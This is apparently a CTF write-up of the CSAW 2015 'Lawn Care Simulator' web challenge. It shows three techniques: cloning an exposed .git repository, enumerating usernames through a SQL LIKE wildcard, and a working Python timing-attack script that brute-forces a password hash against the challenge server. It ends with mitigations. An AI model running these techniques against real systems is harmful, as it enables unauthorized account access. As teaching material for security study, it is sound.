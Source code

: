 ## Lawn Care Simulator
Writeup by @auscompgeek.

### tl;dr
* `.git` repo was exposed
* get username through `sign_up.php` and wildcards
* use side-channel attacks to log in by brute-forcing the passhash

### Introduction
On visiting the challenge website, we are greeted with a simple game.
Let's take a peek at some of the source:

```javascript
    function init(){
        document.getElementById('login_form').onsubmit = function() {
            var pass_field = document.getElementById('password');
            pass_field.value = CryptoJS.MD5(pass_field.value).toString(CryptoJS.enc.Hex);
    };
    $.ajax('.git/refs/heads/master').done(function(version){$('#version').html('Version: ' +  version.substring (0,6))});
    initGrass();
}
```

Here, we see that passwords are *sent* to the server as MD5 hashes, and
that there's a `git` repo at `.git`.

### Exploitation
Let's clone the git repo:

```console
$ git clone http://54.175.3.248:8089/.git/ lawn-care-sim
Cloning into 'lawn-care-sim'...
Done.
```

... that was simpler than I expected.

```console
$ cd lawn-care-sim
$ ls
___HINT___  index.html  jobs.html  js  premium.php  sign_up.php  validate_pass.php
```

Let's take a look at these PHP files.

> `premium.php`:
```php
# [snip]
    require_once 'validate_pass.php';
    require_once 'flag.php';
    if (isset($_POST['password']) && isset($_POST['username'])) {
        $auth = validate($_POST['username'], $_POST['password']);
        if ($auth){
            echo "<h1>" . $flag . "</h1>";
        }
        else {
            echo "<h1>Not Authorized</h1>";
        }
    }
# [snip]
```

Guess we know where to find the flag now.

> `validate_pass.php`:
```php
function validate($user, $pass) {
    # [snip]
    $user = mysql_real_escape_string($user);
    $query = "SELECT hash FROM users WHERE username='$user';";
    $result = mysql_query($query) or die('Query failed: ' . mysql_error());
    $line = mysql_fetch_row($result, MYSQL_ASSOC);
    $hash = $line['hash'];
    if (strlen($pass) != strlen($hash))
        return False;
    $index = 0;
    while($hash[$index]){
        if ($pass[$index] != $hash[$index])
            return false;
        # Protect against brute force attacks
        usleep(300000);
        $index+=1;
    }
    return true;
}
```

So `validate()` takes a username and passhash, fetches the hash from the
database, then compares each digit in the hash.

Hang on a second.  There's a call to `usleep()` in the loop.
This is trivially vulnerable to a timing attack.

An important thing to note is that the length of the hashes are checked first.
When performing our attack, we'll have to pad our hash.

> `sign_up.php`:
```php
# [snip]
    $user = mysql_real_escape_string($_POST['username']);
    // check to see if the username is available
    $query = "SELECT username FROM users WHERE username LIKE '$user';";
    $result = mysql_query($query) or die('Query failed: ' . mysql_error());
    $line = mysql_fetch_row($result, MYSQL_ASSOC);
    if ($line == NULL){
        // Signing up for premium is still in development
        echo '<h2 style="margin: 60px;">Lawn Care Simulator 2015 is currently in a private beta. Please check back later</h2>';
    }
    else {
        echo '<h2 style="margin: 60px;">Username: ' . $line['username'] . " is not available</h2>";
    }
# [snip]
```

Wait a second, `username LIKE '$user'`?  Interesting.

For those that haven't learnt SQL yet, the `LIKE` operator takes two strings,
and takes the RHS as a wildcard expression to match against the LHS.
In SQL, the equivalent wildcard for `*` is `%`.

So, this page takes a *wildcard expression* for the username, and returns a
username in the database.  Great!  Let's grab our username by passing a
username of `%`.

> ## Username: \~~FLAG~~ is not available

Now that we have a username, let's perform our timing attack.
In this case, the timing is the time it takes to respond to our HTTP request,
so attacks may be unreliable.  I try to mitigate this in various ways.

```python
#!/usr/bin/env python3
import requests
import time

EPS = 0.01

username = '~~FLAG~~'
alphabet = '0123456789abcdef'
known = ''

def try_pw(p):
    data = {'username': username, 'password': p}
    r = requests.post('http://54.175.3.248:8089/premium.php', data=data)
    return r.elapsed.total_seconds(), r.text

def fill_pw(p):
    return p.ljust(32, '0')

last_t = max_t = 0
max_l = None

while len(known) != 32:
    for l in alphabet:
        t, result = try_pw(fill_pw(known + l))

        # if we've already found it, just print it
        if 'Not Authorized' not in result:
            print('FOUND IT')
            print(known + l)
            print(result)
            exit()

        print(known + l, t)

        # attempt to detect network latency, etc. really badly
        # this will break if the hash has consecutive zeros in the middle
        if t - last_t < EPS:
            print('fuck')
            known = known[:-1]
            max_t = last_t = max_t / 4
            break

        if max_t < t:
            max_t, max_l = t, l

    else:
        print('adding', max_l, max_t)
        known += max_l
        last_t = max_t

# assuming the flag doesn't have "Not Authorized" in it, we shouldn't get here
print('uhm. something went wrong.')
```

I had to manually intervene a couple of times whilst running my attack,
modifying `EPS` and `known` as appropriate.

... about half an hour later:
```html
667e217660 3.2174746990203857
667e217661 3.2007336616516113
667e217662 3.207519769668579
667e217663 3.2157950401306152
667e217664 3.1841838359832764
667e217665 3.2086429595947266
FOUND IT
667e217666
<html>
<head>
    <title>Lawn Care Simulator 2015</title>
    <script src="//code.jquery.com/jquery-1.11.3.min.js"></script>
    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/js/bootstrap.min.js"></script>
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<h1>flag{gr0wth__h4ck!nG!1!1!</h1></body>
</html>
```

Our flag is `flag{gr0wth__h4ck!ng!1!1!}`.
(Note: CSAW CTF's flags are case-insensitive.)

An interesting thing to note is that this hash has a lot of trailing zeros.
It turns out that the challenge was modified to only check the first 10 digits.

### Easter eggs
```console
$ cat ___HINT___
Before planting grass, add compost or other soil amendment to the soil to improve its ability to hold water.
$ git log --oneline
aa3025b I think I'll just put mah source code riiiiighhhht here. Perfectly safe place for some source code.
```

### Mitigations
* If you don't want people cloning your git repo, don't make it publicly
  accessible.  Seriously, how many times have we mentioned this already?
* Don't use the SQL `LIKE` operator unless you really mean it.
* `sleep`ing is not a valid way of preventing brute-force attacks.
  :stuck_out_tongue_winking_eye:

### Notes
It turns out PHP returns `NULL` for a lot of things, and `0 == NULL` in PHP.
Specifically, indexing `NULL` gives you `NULL` (what!?), and `strlen(NULL)`
is also `NULL`.  [s0lst1ce][] abused this and got the flag by sending an empty
username and password.

[s0lst1ce]: //s0lst1ce.github.io/web%20hacking/csaw%20quals%202015/writeups/2015/09/20/csaw-quals-writeup-lawncare-sim/
